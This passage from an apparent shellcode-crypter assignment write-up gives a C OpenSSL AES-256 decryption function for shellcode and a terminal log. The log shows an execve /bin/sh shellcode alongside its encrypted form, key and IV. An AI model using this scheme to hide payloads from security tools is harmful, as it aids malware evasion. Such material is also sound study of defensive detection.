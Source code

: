 ```code
{
  ERR_print_errors_fp(stderr);
  abort();
}

//decryption function for AES 256 with a 128 bit initialization vector
int decrypt(unsigned char *encrypted, int encrypted_len, unsigned char *key, unsigned char *iv, unsigned char *decrypted)
{
  EVP_CIPHER_CTX *ciphertext; //openssl EVP ciphertext structure

  int len, decrypted_len;

  //create and initialize the context
  if(!(ciphertext = EVP_CIPHER_CTX_new()))
    handleErrors(); //error handler

  //initialize the decryption operation for AES 256 with a 128 bit initialization vector
  EVP_DecryptInit_ex(ciphertext, EVP_aes_256_cbc(), NULL, key, iv);

  EVP_DecryptUpdate(ciphertext, decrypted, &len, encrypted, encrypted_len); //decrypt shellcode

  decrypted_len = len; //decrypted shellcode length

  EVP_DecryptFinal_ex(ciphertext, decrypted + len, &len); //finalize encryption

  decrypted_len += len; //decrypted shellcode length

  EVP_CIPHER_CTX_free(ciphertext); //clean up

  return decrypted_len;
}
```

# Compiling and Executing
First, encrypt.c is compiled and then executed. The 256 bit AES key and 128 bit initialization vector used to encrypt the shellcode are displayed, along with the shellcode in it's original and encrypted forms.

```
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ gcc encrypt.c -l crypto -o encrypt
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ ./encrypt
[+] AES 128 bit IV: KSB1FebW397VI5uG
[+] AES 256 bit Key: PKdhtXMmr18n2L9K88eMlGn7CcctT9Rw
[+] Original Shellcode (25 bytes):
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
[+] Encrypted Shellcode (32 bytes):
\xb0\x69\x09\xde\xc5\x63\x0e\x69\x5c\xd1\x7e\x34\xf3\xc1\x7b\x28\x6c\x47\x48\xd4\x5b\x83\x82\x6b\x4b\xb5\x52\x47\xb1\x3e\xf2\x70
```
